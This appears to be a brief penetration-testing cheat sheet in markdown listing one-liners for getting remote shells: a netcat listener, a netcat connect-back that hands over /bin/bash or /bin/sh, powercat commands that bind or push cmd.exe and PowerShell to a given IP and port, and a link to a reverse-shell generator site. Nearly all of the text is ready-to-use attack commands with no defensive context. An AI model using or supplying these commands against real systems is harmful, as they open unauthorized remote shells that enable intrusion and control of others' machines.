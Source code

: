 ### Linux to Linux
* nc -lvvp 9999  监听主机
* nc 127.0.0.1 9999 -e /bin/bash | -e /bin/sh | -e /bin/ash
* #cd /bin | grep sh

### Websites for getting shell
https://www.revshells.com/

### Windows to Linux
* powercat -l -p 1080 -e cmd.exe -v (need to download from own server), nc ip port -vv
* nc -l -p port -vv, powercat -c ip -p port -v -e cmd.exe
##### powercat return with powershell
* powercat -l -p port -v
* powercat -c ip -p port -v -ep
